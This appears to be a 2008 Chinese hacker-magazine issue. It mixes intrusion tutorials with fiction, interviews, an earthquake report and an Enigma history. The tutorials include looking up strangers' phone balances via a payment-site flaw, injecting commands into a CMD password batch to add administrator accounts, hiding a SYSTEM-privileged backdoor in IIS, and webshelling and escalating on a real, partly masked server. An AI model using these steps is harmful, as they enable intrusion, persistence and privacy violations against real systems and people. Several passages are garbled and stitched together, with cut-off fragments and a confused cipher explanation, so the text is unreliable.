接下来选择要登记的缴费业务。我们选择“代收电话费”并输入电话号码、区号（这里填给手机充值时输入的当地手机区号），输入完成后点击“登记”按钮，如图 3。

系统提示成功之后返回，然后再点击左边菜单里的“网上缴费”，并在缴费信息里面的缴费类型下拉列表中选择刚才登记的那条缴费信息，点击“提交”，如图 4。

在接下来的页面就会显示我们手机的欠费信息和余额情况了，如图 5。

如果确认无误需要缴费，就在下面的“预缴金额”里面输入想要缴费的金额，在“账户信息”中选择你用于缴费的银行卡，然后输入银行卡密码。如果你安装证书后修改过密码，提示输入证书密码时再输入一遍证书密码。如果不发生意外的话，系统将缴费成功，同时会有一条短信发送到你的手机上，让你查询缴费的金额和时间，真的蛮方便又到位。

可悲的是，同时也带来了问题。这个问题就出现在“网上缴费信息维护”这个步骤里：如果输入的不是自己的手机号码，而是别人的手机号，那么在后面的步骤里，一样会显示这个手机号码的余额和欠费情况。

这样看来，是不是别人的余额都可以查到了？现在试着在“网上缴费信息维护”里再登记一条缴费业务，输入一个朋友的手机号，登记完之后，再次点击左边菜单中的“网上缴费”……

Shell 回来，然后本地提升权限的时候就使成功。

【文章中提到的 EXP 已收录于本期光盘中】

编辑点评：

“说实话，使用这个小东西容易让机器瘫痪。为了以防万一，大家可以把管理员的命令一起执行，如：`net user a /add & net localgroup administrators a /add`，这样就大功告成。而这个木马程序本身的载体在于‘网上缴费信息维护’这个步骤，……”

## 挂马之 WinRAR

clzxy

从本文你可以学到：

- 脚本在 WinRAR 上的应用

这个世界真是不太平，连藏有好几个大洞的整站都曝出了漏洞，现在又听说在 Windows 中普及率达到 99.99% 的 WinRAR 也出了挂马漏洞。于是我就了解了一下，其实过程非常简单。

主要是由于 WinRAR 自解压压缩文件的提示文本对脚本的解析而导致的，下面我们来看看具体过程。先找一个待压缩的文件，给它创建压缩文件，单击“创建自解压格式压缩文件”，如图 1，再切换到“高级”选项卡，选择“自解压选项”，在新界面中……

## 批处理注入和防范

从本文你可以学到：了解批处理引发的登录和防范问题

以前记得“黑手”上发过一篇《一个小心，CMD 也能闹鬼》的文章（07 年 11 期），原理就是利用在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor` 下设定 `AutoRun` 字符串值，然后把该值设置为你要运行的批处理。当你运行 CMD 的时候，就自动执行 AutoRun 键值所指向的程序。很多人都想用这个设置进入 CMD 的验证，要想使用 CMD，就必须通过验证，这就阻碍了我们的入侵！其实这只要简单的几句代码：

```bat
@echo off
:Login
cls
set /p Pwd=请输入登入CMD密码:
if %Pwd%==77169 (goto begin) else (goto Login)
:begin
cls
```

把上面代码保存为 `C:\77169.bat`，然后把 autorun 的值改为 `c:\77169.bat`，当我们运行 CMD 的时候，就会提示输入密码。我们这里的密码是 77169，当输入其他数字时就会跳转到 Login，要求重新输入密码。其实这个程序实在太容易绕过了。里面是通过判断 Pwd 这个变量的值和 77169 是否相等来验证的，我们来看怎么绕过去。

方法一：要求输入密码的时候，我们输入命令 `echo 77169`。哈哈，结果怎么样？

```bat
if echo 77169==77169 (goto :begin) else (goto :Login)
```

于是先运行 `echo 77169` 得出 `77169`，由于运行成功，所以跳转到了 begin。

方法二：利用构造正确语句来达到目的。运行 CMD，然后输入：

`1==1 (net user nohack 77169 /add & net localgroup administrators nohack /add)&`

看看结果，成功执行，并且添加了一个账户 nohack。这个时候 if 语句也会被构造通过。

接着我们可以到命令提示符，执行以下命令：

`reg query "HKLM\SOFTWARE\Microsoft\Command Processor" /v autorun`

得到的结果类似：

```reg
REG.EXE VERSION 3.0

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor
    autorun    REG_SZ    c:\cs.bat
```

我们从上面的信息可以得到原代码位置为 `c:\cs.bat`，然后使用 `type` 命令就可以看到全部的代码了。怎么做呢？当 CMD 要求我们输入密码的时候，输入：

`1==1 (reg query "HKLM\SOFTWARE\Microsoft\Command Processor" /v autorun & pause)&`

然后就可以看到相关内容，这个时候我们也已经绕过去了。接着输入 `type c:\cs.bat` 就可以看到内容了。

好了，对于利用我就抛砖引玉说这么多了。再说下防范吧！我们知道 ASP 里面对注入进行防范一般是通过过滤来进行的，我们也可以对用户输入的密码进行过滤。这里涉及批处理特殊字符的知识。比如我举个例子：比如 `a=123#`，我们利用 `set a=%a:#=%`，就可以把 a 设置为 123 了。但是如果有更多字符，过滤就要把 `for`、`call`、`set` 这些综合起来利用。这里我推荐一个关于字符串处理的代码：http://www.cn-dos.net/forum/viewthread.php?tid=32737。

首先，对于用户输入命令要阻止。怎么做？我们知道 CMD 里有一个 `errorlevel` 变量，是执行每个命令后返回的一个数值。执行成功的时候返回 0，其他时候非 0。呵呵，只要我们验证一下对方输入的是不是可执行的代码就 OK 了。这个简单，在 `set /P Pwd=请输入密码:` 后面加个 `%Pwd%`，然后通过 `errorlevel` 的值进行判断。如果是 0 就跳转到 Login 标签，不让其通过；只有正确输入才进入。

```bat
@echo off
:Login
echo Please enter password:
set /P Pwd=请输入密码:
%Pwd%
if errorlevel 0 goto :Login
if "77169"=="%Pwd%" goto :Begin else goto :Login
:Begin
cls
echo U Are In
```

呵呵，防注入的哦！对于这个代码的修饰，加上其他东西就不是本文讨论的了，大家可以自由发挥。

编辑后语：……

## 隐藏在特权用户组中的幽魂

从本文你可以学到：

- 另类后门的应用

相信很多朋友在入侵得来的系统权限后，首先想到的要么是怎么回传，要么是保持对目标主机的控制，这就不可避免地要面对后门的相关话题了。我不认为利用那些远程监控工具、Rootkit 程序是最好的选择，当然除非自己会写这些，或者有足够的时间去写那些众多系统绕过，否则还是妥妥带有危险性的。

因为脚本木马比较好免杀加密，并且杀软对这些的查杀能力不是很强，所以这个后门才是很好的选择。经常使用脚本木马的朋友应该不陌生，各种木马用起来，权限问题都不是难事。实际上它们大多数都是有读权限的，所以说如果能写入 ASP 的话，基本就没什么问题了。在线安装 IIS 以后，由 `inetinfo.exe` 启动的 `InProcessIsapiApps` 里面，全部都有特权——也就是有 SYSTEM 权限！所以把相关程序加到其对应目录里去，也就达到了我们的目的。

比如把 ASP 的 ASP.DLL 作为可利用对象，或者以 Netbox 为例给大家做演示：

```bat
D:\Inetpub\AdminScripts
@echo off
set /P a=请输入文件名:
md %a%
copy %a% c:\temp
```

接着第二步：输入 `cscript adsutil.vbs get /W3SVC/InProcessIsapiApps`，效果如图 1。在这里我们可以看到一堆拥有特权的文件。我的意思不是说把我们的文件加到里面去么？这里以 Netbox 为例给大家做演示。

第三步：我们将图 1 里的这些拥有特权的文件复制到记事本里，如图 2。

继续完成以上工作以后，效果如图 3。第五步：进入 AdminScripts 文件夹下的 CMD，执行整理好的语句（小提示：这里就是把平常整理好的全部代码放在 CMD 下执行）。如果一步都没做错的话，就应该毫无故障了！我们再执行 `cscript adsutil.vbs get /W3SVC/InProcessIsapiApps`，效果如图 4。

看到没，我们的 Netbox 安静地躺在那里！到此，只要由 Netbox 解析的 ASP 文件应该都显示系统权限了！呵呵，有了这个你还怕什么？下面来测试，打开我们的 SHELL，在 CMD 里输入：

`net user test nohack /add & net localgroup administrators test /add`

肯定是执行成功了！如图 5、图 6。

OK 了！这样执行文件、添加用户都可以了。这里也许有朋友会问：怎么不选择 ASP.DLL？因为选择 ASP.DLL 一是隐藏性不是很好，二是容易给其他“黑客”方便！用 Netbox 完全可以将自己注册成为服务启动，达到可以随意更改、隐藏得更深的目的，也不会给其他“黑客”造成机会！

编辑点评：看完这篇文章，小编实在是……首先，既然都已经拿到系统权限了，为什么不直接在运行里调用 cmd 呢？第二，小编把 asp.dll 做测试时还真有点威力，但也有很多局限！希望不会再有 netbox 这类的东西吧。不过总体上来说，这篇文章的思路还是不错的。

## 虚拟机的高级应用窥探

本次你可以学习：虚拟机的高级应用

- 1. 新建虚拟机：点击此项，则会弹出新建虚拟机向导，重新安装一台虚拟机。
- 2. 已存在的虚拟机：点击此项，会弹出对话框，选择已经存在的虚拟机（注意：要添加的虚拟机不能处于运行状态，否则不能添加）。
- 3. 新的虚拟机克隆：此处选择后，会弹出对话框让你选择已存在的虚拟机作为“模板”，然后来到“完成虚拟机向导”，类似使用此功能的过程，相当于一台“克隆”设置相同但完全独立的虚拟机，不需要重新安装系统。
- 4. 创建一个链接克隆：几乎不占空间，只需要有一个可以创建链接克隆的虚拟机即可。且可以通过一个已经创建的虚拟机克隆出多个链接克隆，几乎不花费时间（某些过度精简的 Windows 版本不能创建链接克隆）。
- 5. 创建一个完整的克隆：占用大量的磁盘空间和操作时间。原虚拟机占多少，克隆后就占多少。

根据自己的需要，选择前面的 3 个选项之一，然后设置完虚拟机名称和存储位置，确定后会显示。

这里可以小结到：虚拟机可以进行分组，分组中的虚拟机也会实时显示在“添加虚拟机到分组”对话框中，如图 3。

如果感觉不够，也可以通过“修改”来去掉。好了，我们已经有 5 台虚拟机添加到分组。当在“添加虚拟机到分组”中，在虚拟机列表里若选择“添加到分组并修改”按钮，则会有 3 个小区域。在接下来的设置中，还可以为已添加的虚拟机分别加入不同的名称设定。分组时，在多个网络和路由器的网络中，还可以为各台虚拟机设定不同的网络模式，你还可以选择虚拟机的网络连接方式（桥接、NAT 或 Host-Only）。完成后，虚拟机会打开这个分组。如此，我们依然可以“反弹”控制到某台虚拟机了。

点击启动分组，就可以同时启动虚拟机了；硬盘不停地咔咔响，几分钟后，这几台虚拟机终于全部启动了，如图 5。

这时，我们可以通过鼠标点击虚拟机的缩略图，轻轻地在各个虚拟机之间切换。配置较低的朋友就会明白，分组中创建这么多虚拟机是很吃资源的，尤其是刚开机的时候，没有 2GB 以上的内存和强悍的双核以上 CPU，非把你卡死不可，硬盘响应其实也太慢，最好……

## 二、虚拟机的网络适配器、网络拓扑结构与网络构建

### 1. 虚拟机的网络设备与网络结构

在 2008 年 2 月的文章中，我们简单地提及了 VMware 的网络。VMware 有不同的网络结构：桥接网络、NAT（Network Address Translation）网络、Host-Only 网络。网络的组成自然离不开网络设备，我们首先来认识一下 VMware 虚拟机的虚拟网络设备：

- VMnet0：VMware 在桥接网络环境下的虚拟交换机；
- VMnet1：Host-Only 网络环境下的虚拟交换机；
- VMnet8：NAT 网络环境下的虚拟交换机。
- VMware Network Adapter VMnet1：母机（HOST）与 Host-Only 虚拟网络适配器通信的虚拟网卡；
- VMware Network Adapter VMnet8：母机（HOST）与 NAT 虚拟网络适配器通信的虚拟网卡。

大家可能会问，那 VMware Network Adapter VMnet0 呢？啊，可能 VMware 中是不含这个选项的。用一种错误的理论来解释，其实就是我们的物理网卡。它不是虚拟的，自然谈不上是 VMware Network Adapter VMnet0。其实 VMware 虚拟机中的网络设备，如网桥、NAT 适配器、Host-Only 适配器，会在选择相应的网络连接后自动开启。DHCP 服务器是为 Host-Only 或 NAT 网络结构的虚拟机自动分配 IP 地址的。

了解了这些 VMware 网络上的虚拟设备，我们再来继续谈谈 VMware 的三种网络结构。

### 2. 桥接网络：物理网络与虚拟机

分别通过物理网卡和虚拟机网卡在虚拟交换机（VMnet0）上通过虚拟网桥进行桥接，交换机将根据组网的需要由 VMware Workstation 自动创建并自动使用。在 Windows 系列的主机上，最多可用 10 台虚拟交换机。通过 VMware Workstation 创建的虚拟交换机，我们可以将一台或多台虚拟机连接到主机或其他虚拟机，网络拓扑图如图 6。

### 3. NAT 网络

该设备为主机和其他仅使用“NAT”网络类型的虚拟机提供了通信接口，同时它还兼有 NAT（网络地址转换）的功能。如果主机通过另外一个以太网适配器连接在一个外部网络上，该设备能把本地网虚拟机的 IP 地址转换为主机的外部网络地址，让虚拟机从主机的外部网络地址访问网络中的资源，包括直接打印等；如果作为 IP 地址通过远程控制等端口服务，当前默认开启。在 NAT 中你还可使用 HTTP 协议访问网页，通过 FTP 协议传送文件，甚至通过 Telnet 登录到路由器等。其工作机制是：主机上的计算机不能直接通过 NAT 来连接虚拟机时，网络拓扑如图 7。

### 4. Host-Only 网络

只对主机和使用“仅主机”网络类型的虚拟机提供数据交换的接口，此时主机也不能使用“仅主机”网络类型的虚拟机的网络连接。它是虚拟机的私有内网网络，其网络拓扑如图 8。

### 5. 虚拟机的网络构建

点击“编辑”菜单中的“虚拟网络编辑器”，在“主机虚拟网络”选项卡中，我们可以看到网络适配器与交换机的连接情况，而且可以通过边上的“+”进行对应不同的连接，如图 9。

此外，在 DHCP 选项卡中，我们可以对 DHCP 服务器分配的地址进行编辑；在 NAT 选项卡中，我们可以编辑网关、端口映射，设置 DNS 等信息。

使用 VMware 提供的网络设备和网络结构，我们可以进行复杂网络的搭建，这无外乎包括以下几点：虚拟网卡的创建、网络结构的创建、虚拟主机的建立、虚拟交换机与网卡的连接等。大家要在具体的网络环境中仔细体会，多动手实践，这样才能够把它掌握好。


## 1. 来源

点击“下一步”弹出“来源”选择的对话框，如图 11。

来源可以是当前的物理电脑、远程的物理电脑、VMware 的各版本虚拟机、微软的虚拟机和一些备份格式。

- a. 物理电脑：选择物理电脑，点“下一步”，会弹出对话框，让你选择远程还是本地。选择远程必须填入 IP 或者网址，以及机器的用户名和口令。若是本地机，则会自动探测并添加用户名和密码，如图 12。
- b. ESX Server 或 VirtualCenter 虚拟机（I）

使用 VMware 或者微软的服务器虚拟机镜像克隆一个虚拟机。

- c. 独立的虚拟机

这个选项主要是提供虚拟机至虚拟机的克隆和备份文件至虚拟机的克隆。使用 VMware Workstation 或者微软的虚拟机镜像作为创建虚拟机的数据来源，此外还支持格式较低的 Backup Exec System Recovery。选择好来源后，点击“下一步”即可对资源进行检查。如图 13，检查完成后，我们还可以对磁盘空间进行操作。

## 2. 目标

“来源”选项中创建不同的导入方式可能会有差别，但是在“目标”选项的操作则相同。单击“下一步”，目标类型选择“VMware 独立虚拟机”，下一步后，开始编辑要建立的虚拟机的名字、位置和类型，如图 14。再点“下一步”（怎么这么多的“下一步”？？），现在是“虚拟机选项”，有两个选项：

- “创建一个完整克隆”：把来源中的系统完整地克隆成一个虚拟机，占用较多的磁盘空间，移植的过程也很长。
- “创建一个链接克隆”：克隆的仅仅是一个链接形式，占用很少的磁盘空间。

点击“下一步”设置网络，可以通过 NIC 选项添加或减少网卡数，单击每个网卡对应的“网络”便可以改变网络结构，如图 15。

OK，再点击“下一步”，针对目标的设置就完成了，并且跳至第三步，对系统进行定制，如图 16。

## 3. 定制

如果我们勾选了安装 VMware Tools 选项，则会为克隆的虚拟机安装 VMware Tools。如果勾选“定制新虚拟机的标识”，就可以对虚拟机的用户信息、时区、网络以及用户组/域等进行定制。设置好后，就确定并进行移植过程了。这个过程貌似是最长的，需要再等几分钟。完成后如图 17。

现在就可以打开克隆的虚拟机看看了（我以物理机克隆虚拟机的移植做的，如图 18）。

以上就是 VMware Workstation 的主要高级应用了，大家记住了吗？

## 编辑点评

很不错的一篇图文教程，不过，大家还是动手用虚拟机做下实验吧，这样印象会更深刻。


## 记一次简单的拿 SHELL + 提权

从本文你可以学到：另一种动易 2006 年 shell 的方法以及常见的提权手法。

由于某些原因，需要拿到 222.216.X.X（出于安全考虑，在此文中的相关页面全部做了处理）这台机子的权限！所以便有了此文。大家平常拿到一个网站的过程中，在目标站没有严格限制的情况下，大家都会选择到有管理权限后去拿有机会的站；当然也有很多站可以看，我也不例外嘛，不过不需要带着什么工具，还是采取比较简单的方法。有时不需要那么迷信工具，别忘了你动手的才是主角！

首先先查下 222.216.X.X 这个服务器上还有哪些站呢（当然我也是从脚本中看到的结果，查到后可在 http://www.seologs.com/ip-domains.html 上进行查询）！查到有 18 个站点在此服务器上，一个一个检测吧。


在检测的过程中，发现有一个站特别像动易 2006。于是找了下默认的数据库，居然还在，下载后连上了。文中会员登录后，进入一个站点，成功进入如图 1。

对于动易系统中 SHELL 的方法也有些变化，在此不妨说说动易 2006 SP6 版本中虽然修补了很多已知问题，但还是存在一些可利用点。下面介绍一种在界面里就可以完成的动易 2006 的 SHELL 方法。首先我们在左边的菜单中选“系统设置”，然后在出现的菜单里选择“自定义页面管理”，接着需要先添加一个自定义页面的分类，选择“添加自定义分类”这个选项，分类名称与分类介绍都可以随便填写，这里我填 test，选择“添加”，系统会提示添加成功！下面我们再选择“添加自定义页面”。


“页面名称”随便你了，这里为 fortest，所谓分类也就是你刚才建的分类就可以了。“页面类型”和“页面路径”都不用管，默认就可以了，不过如果没有页面路径的话，默认生成的文件是放在根目录下的。文件名称输入你想要的 ASP 木马名字，这里以 test.asp 为例。“页面简介”也不用管。下面就在页面内容里输入你的小马程序，保存后，再点“添加”，会提示保存自定义页面成功！OK，最后一步需要到代码生成木马页面。选择“自定义页面管理”，这时出现如图 3 界面。

这时只需点击“生成本页”就 OK 了，至此成功获取 WEBSHELL！如图 4。

拿到 SHELL 后，下面进行提权。首先自然选择 Serv-U。其实我在之前的场景中，已经得知是 Serv-U 6.4 版本，但是很多人说我的账号权限不够，我也怕无力再发。然后选择有漏洞的服务器端，找可以利用的方式——CMD 什么的都可以。习惯性浏览到 Documents and Settings 的 All Users 文件夹，检测到没有做权限设置，于是创建文件到启动项里，利用如下 VBS 语句：

```text
set wshshell=createobject("wscript.shell")
am=wshshell.run("net user test:")
...
```

将其保存为 test.vbs 到“C:\Documents and Settings\All Users\开始菜单\程序\启动”中，如图 5。

启动后会出现个黑乎乎一闪而过的窗口，而这个运行时是没有任何提示的。过了 N 小时后，感觉差不多了，一登录后出现如图 6 的提示。

## 最弱的入侵

生命是由无数个巧合加上无数次的错误组成，不相关的路程或许会在某一时刻变成一条线路。可靠、结果不一定圆满，故事，才刚刚开始……

男孩——请允许我这样称呼这个 20 岁出头、善意而内向的小伙子——是个黑客。黑客也是人，一名黑客的本质说来也无外乎一个人，一个能以周密的计划和对技术本身的热爱支撑自己成为黑客的人。每天的故事已足够说明他是一个执着但不过于张扬的狂热少年。

### 一

男孩像几分钟里那样，把男孩的名字、出身、工作、喜好，甚至方才的境遇一一介绍自己。他比起老师所讲的复杂程序要简单得多，却也比书上所写得更复杂，至少在那一夜里，他还只是个普通的男孩。

### 二

男孩侵入电脑里的那个文本文件，里面有些话。他反复把电脑屏幕上的那段文字看了又看，终于确认了那是他想要找的东西。那并不是一段真正的入侵，更像是一场年轻人的尝试。

### 三

女孩接到了，而且换了一台电脑，但女孩没有告诉男孩。男孩开始摸索着，试着从聊天记录里找寻线索，像是在从一条细小的缝隙里窥见另一个世界。

男孩发现 IP 段里也找不到女孩的电脑了。他想起她那台电脑原先的网络路径，试着去搜寻，结果空无一物。那一刻，男孩意识到自己对她的了解其实并不多。

### 四

男孩的能力并不让人惊叹，男孩的技术同样让人佩服。男孩做出的每一步都像是在写一个程序，严谨而安静；然而面对女孩时，他却像一个初学者一样迟疑。

男孩很喜欢这个女孩，但他不想再继续错下去。关于她、关于自己，关于“入侵”，已经不再重要。

### 五

这是男孩作为黑客的最后一次入侵，或者说这只是一种仪式。在这段静谧的初恋面前，男孩把这个仪式进行得像一个虔诚的告别。

```text
bmw\shell.run['net user guest testpass', 0]
OK 了，updata.exe 是我们的克隆工具，将 guest 克隆成为 administrator。
```

## 【采访】—2008.06 采客·观察手册


## 采访 coldface

本期 NoHack 直播就让小迷带领大家和 coldface 进行零距离接触，了解真正的 coldface。下面有请本次 NoHack 直播的嘉宾 coldface 出场，大家掌声欢迎！（所谓观众一脸迷茫……）

NoHack：“地毯高厚一派温山千古秀。”
coldface：“门前大海半河合水万年流。”
NoHack：“原来你也是天生会的兄弟！不知道你烦几柱香？”
coldface：“我从来不烧香，熊猫才烧呢……呵呵。”
NoHack：“coldface，你好！”
coldface：“大家好，现场的观众朋友们和电视机前的朋友们大家好！”（所有观众继续茫茫中……）
NoHack：“你们有觉得一脸迷茫，你们许多人柱香？”
coldface：“我不是熊猫……”
NoHack：“你好，奇怪的是，你如何步进黑客这神秘领域的，是个人爱好还是因为其他原因？”
coldface：“我记得那是 1994 年，那个时候我所在的小城市刚刚有网络。我接触网络时的感受是：网络会改变世界，一个全新的世界将要出现，我想成为中国第一批牛人。此时，一个黑客才懂真正的网络结构，所以我只是过客而已。”

Ps：背景音乐响起，大屏幕上砸出一声：劳动人民最光荣。观众们也纷纷热烈鼓掌中……

NoHack：“作为中国第一批的拓荒者，这将是怎样的事？”
coldface：“因为我懂得，要不前面某个窗里是黑影，不可能什么……一个是上网，当时网卡电话嘛，一个小时要付近 20 元，对于普通家庭来说是很贵的；另外就是当时真正的网络知识很少，国内的计算机资料被封锁得非常厉害，一切都要靠国外网上学习。”

小迷偷偷笑道：“20 块钱一小时你都愿意上？你们何等的寂寞……”

### 编辑感言

文章很短，但是在资料页中具有很强的参考性，作者考虑的研究也从纸面走向实证。读完之后，突然发现，这也是在被动社会中关于成长、牺牲与理念共同交织的事由。

实际上，这是两代黑客的共鸣和对话。——写给每一个仍然在努力的人。

观点：也许我并不会成神，因为你说……我会告诉你，我只想把我所热爱的事情做好，而不是让它变成一个空洞的“名号”。

志士：黑暗也不全是黑的，只有光照，影也会发光；
志士：我更愿意把这些讲给更多人听。

嘿嘿，单身的 MM 虽然高，根据某某报道，coldface 至今单身……20 岁被人小……小时候！

NoHack：看来要进入这行，英语还是要过关的；你认为做一名黑客需要具备什么样的知识？
coldface：如果掌握了 Windows 操作系统、英语和 C 语言，那么很快可以入门，因为你至少可以看懂很多 EXP 的源代码。熟悉协议和 Linux 操作系统，就可以成为高级黑客。至于成为专家，则需要更多的基础知识。此外，我相信最感人的还是坚持与实践中的技术积累。
NoHack：听说你是绿色网盟的成员，能介绍下绿色网盟的发展过程吗？后来又是因为什么原因解散的？
coldface：绿色上网是 goodwell、小鱼、solo、dspman 和 rocky 在 1995 年发起成立的，我也是在 95 年加入的第一批成员。不过在时间上远远比我大二，那时我想我比网站还早一年加入。绿色网民在 1999 年左右进行了一些大动作，比如制定一些程序和对外学习，大部分受到同济大学的影响，随后成立了上海绿盟，很快又成立了中联联盟。之后因为发展、影响以及组织定位等方面的紧张，绿色网盟长期保持的聚焦作用和核心观念逐渐减弱，且组织上也遭遇了很多内部矛盾……
NoHack：在这一次社团成立中，谈谈你在那次会议中的印象是什么？
coldface：“我现在想，我们现在有很大的利益竞争，使得这个小团体的凝聚力太高，而那些社会状态比较好的人可能会认为这带来了压力，但也不是很严重。”

NoHack：“我们知道，每个黑客都有自己的原则，而且现在黑客圈里的人在宣扬着黑客精神，什么是你理想的黑客精神？”
coldface：“我所理解的黑客精神就是致力于技术和创新，在这个精神下，每个行业都有希望。”
NoHack：“现在国内产生了黑色产业，对于这种游走在法律边缘的群体你有什么看法？它是会通过，还是会在这边沦陷于犯罪？”
coldface：“存在着许多违法的行径，实际上法律的边界也在不断明确。随着法律的逐步完善，这些群体大部分会被引导到正途上来，还有小部分人会在恣意的灰色空间中逐渐失去。”
NoHack：“在技术方面，你个人最擅长什么？”
coldface：“技术的发展很快，到现在已经不敢说擅长某方面了，只能说现在最愿意专注于某一方面。”
NoHack：“在安全研究上，特别是如何做漏洞研究？”
coldface：“我对技术非常有兴趣，开始从入门知识和资料中学习，后面逐步进入更深的研究。刚开始觉得非常困难，不过慢慢积累了很多经验和感受。”
NoHack：“你现在在从事什么样的工作，以及未来打算如何安排？”
coldface：“我现在主要从事一些与安全相关的技术研究和开发工作，同时也会参与一些社区活动和技术分享。”
NoHack：“在今天的采访中，你最想对读者说些什么？”
coldface：“希望大家保持热情，坚持学习，不要轻易放弃。”

> “只见过太小心谨慎的人，coldface 却给出了一份非常特殊的感觉。”

## NoHack 紧急采访——关注地震第一线的朋友

2008年5月12日下午，四川汶川县发生里氏7.8级地震，灾情严重。NoHack特派小速通过网络和电话，对在一线的“痛并快乐着”和“小风”进行采访。

“痛并快乐着”，四川绵阳市区人，多家报刊杂志的专业写手，地震时正在家中。

“小风”，四川资阳人，由于某些特殊原因，未能知道其具体位置。通过其QQ和Blog，推测她震时人在成都。

下面让我用电话连线他们……电话在等待了一周左右之后终于接通了……

PS：由于两人是分别采访，最后整合在一起的，所以就意味着转述。

NoHack：地震时，你的第一反应是什么？

痛并快乐着：“我的第一感觉就是突然，来得太突然！让你根本来不及去想……”

小风：“当时我正在潜水论坛，突然感觉双腿剧动，以为是想睡的感觉，结果两秒后就好了！”

NoHack：你们距离震中近吗？你受伤了吗？

痛并快乐着：“我们这里距震中60—70公里，是比较近吧。我倒是没有受伤，不过我的好友们有受伤。”

小风：“刚才又震了一声，差点就想躲了吧。幸亏距离汶川有159公里，因为从来没想过如此地震，我还怕不能活下来。好吧……”

NoHack：当你感觉到地震的时候，你想到外面的情况吗？是什么样的过程？绝望？还是……

痛并快乐着：“我们这里是在市区，还是好点，没什么大的建筑倒塌情况，但是都乱了……”

小风：“南部的黑瓦白墙都掉了出来，大街上人山人海。能看见楼房在晃动，不少处都出现了破动，此时心情很乱，只觉得世界怎么这么大，人却这么渺小，小啊。”

NoHack：你们那边通信中断了吗？当电话能够打通，网络信号接通后，你的第一感受是什么？

痛并快乐着：“我们这边信号中断了，就是现在，电话信号也不是很好，网络信号时断时续。没有别的问题了，当信号接通时，第一时间做的就是打电话报平安。”

小风：“我们这里还好，通信没有中断。只是大家人都有点惊，导致移动服务器爆满了！从14时28分地震后，大家都拿出手机给亲人联系，我也不例外，连续打2—3个小时后，终于给家那边打通电话了。得知家那边也同样发生地震，不过还好没人大事。”

NoHack：震后人们的生活如何？都安排在哪？火车站、广场……

痛并快乐着：“我们的生活基本稳定，有车的都窝进了车子，没有车的住在广场、客运站等地方。现在的心情是心有余悸吧，稍有动静都时刻紧绷着！”

小风：“我们这边的人大多都在往医院的广场或地势空旷的地方休息。火车站是人群聚集地……人们都很紧张，自己蜷着，呼吸比较紧张。坦城来了好多货车和机车，停放在广场两旁。”

NoHack：现在外面的情况如何？余震厉害吗？

痛并快乐着：“现在城市还处在紧急救援状态，还有很多灾民没有被营救出来，余震还是很厉害。”

小风：“目前外面还在余震的危险中，人们都在乡里，我到现在余震还断断续续。现在采访时，余震也有。余震一有，我们已经躲好了，时刻准备着。”

“痛并快乐着”的兄弟们说：“希望各界人士伸出援助之手，为抗震救灾贡献自己的一份力量！我先走了，到更忙的地方去了，拜了！”

### 后记

对于“痛并快乐着”，我想大家不会陌生，他曾经在很多报刊发表自己的文章。在对他进行采访的时候，明显能感到他质朴得很真，眼角里始终充满着守候。不只是身体上，还有精神上。也许没有经历过这些的人，是无法体会这种心情的。

小速准备了很多安慰的话语想对他们说，但是事情正当时，他们每个人都直面灾难，想去问，却想给他们一些空间。在对“痛并快乐着”和“小风”电话采访的最后，小速代表NoHack的所有成员向四川灾区的朋友们送上最衷心的祝福。外面还在下着雨，不过小速坚信，雨总是会停的，我们也终会站在蓝天下，去欣赏那雨后的彩虹……

## 黑客经年史 第二集

在战争的日子里，我也曾阅读帝国的兴亡，但首先并没有文采；当我把自己的思想加到一切中，已成无可奈何的流逝，直到中了小小水洼的浅滩，随时平息的、咬啮的，有一些什么一逗就是不解吗？站在这个花边似的混乱笑语中，我们并不知道他（即使仅仅为自己）未来是谁。——拜伦《书斋漫游》选段

黑客是征服者的战争，然而征服往往是从密码开始的。二战前夕，随着世界上最先进的密码机Enigma（意为“谜”）在纳粹德国的大规模使用，波兰、法国、英国等国家的顶尖密码群体，陆续被卷入了这场旷日持久的密码攻防战中。直到二战结束，纷乱磨损，也因此展开了人类历史上最激烈的加密与解密大比拼。

### 第三章 加密之王 Enigma

第二次世界大战爆发于1939年，历时6年之久，先后有60多个国家和地区参战，涉及20多亿人口，战争致使各方共约有1亿人伤亡。在这场人类有史以来最惨烈的战争中，决定最后战争命运走向的，常常是几个看似不起眼的消息与发明家。Enigma的发明，彻底改写了战略密码，它将“谜”般的特征直接带入了战争。

Enigma从外表看起来并没有什么能使人感到惊奇的地方，它似乎很像普通的打字机。Enigma是一种转轮式密码机，原理并不复杂，但在二战之前，它被视为德国本土最重要的密码装备。它由若干个转子、转盘和插线板组成，具有转轮和显示器，可以按键生成密文。

Enigma的键盘排列接近我们现在使用的计算机键盘。不过为了能够让密码看起来更加难破译，它不使用标点符号，只使用26个字母。它使用的是由字母表组成的旋转式密码盘，通过转轮、转盘和插线板，使每次按键对应的信号都加密成不同字符。代替密码算法是历史上最古老也是最有影响的加密方法之一——凯撒密码（Caesar cipher）。

明码字母表：abcdefghijklmnopqrstuvwxyz  
密码字母表：DEFGHIJKLMNOPQRSTUVWXYZABC

根据上面的加密对照表，如果某人想发出“Veni, Vidi, Vici”，则加密如下：  
明文：veni, vidi, vici  
密文：YHQL, YLGL, YLFL

> 小知识：明文（Plaintext）指待加密的原始文本内容，密文（Ciphertext）为加密后的内容，解密（Decryption）则是将密文还原成明文的过程。

Enigma采用的加密方法正是这种转轮编码的加密方式。通过键盘输入明文，转轮和插线板的组合将字母替换成别的字母。这种方式有26种可能性，不足以实际应用，用这种方法所得得到的密文还是相当容易破译的，如图2。

因此在二十世纪前，阿拉伯的密码学专家已经经常靠分析文字频率的方法去破解简单密码。破解的原理是：在每个转子上有共同的显示器，每一个字母单独的编码器将不同转动。而它们依次经过转子和转盘中的路径，进行一轮又一轮加密，形成了更加复杂的密文。这种方法后来在计算机应用密码学中被称为多表代替密码（Polyalphabetic substitution cipher）。

因此研究Enigma的加密与解密机制，是一个极其重要的课题。转轮机（Rotor machine）是一个由精密旋转盘构成的部件。它从输入端把加密电路中根据设定的转子、转盘和插线板进行变化，最终形成密文。

相应的密文在显示器上显示，然后转轮就自动地转动一个字母的位置。也就是说，当第一次键入b时，信号通过转轮中的连接，绕过甲轮，然后转动转轮，改变字母的对应密码。第二次键入b时，它所对应的字母就变成了c；同样地，第三次键入b时，变成了d，如图4。

这是Enigma的秘密所在，它能摒弃以往的“简单代替密码算法（Simple Substitution cipher）”，而一个字母b在每次的不同位置，可以对应不同的字母结果。文中下图中的字母对应显示，就根据字母的不同而变化，频率分析法在这里就没有用处了。这样一来，3个转轮形成了多表代替密码算法（Polyalphabetic substitution cipher）。

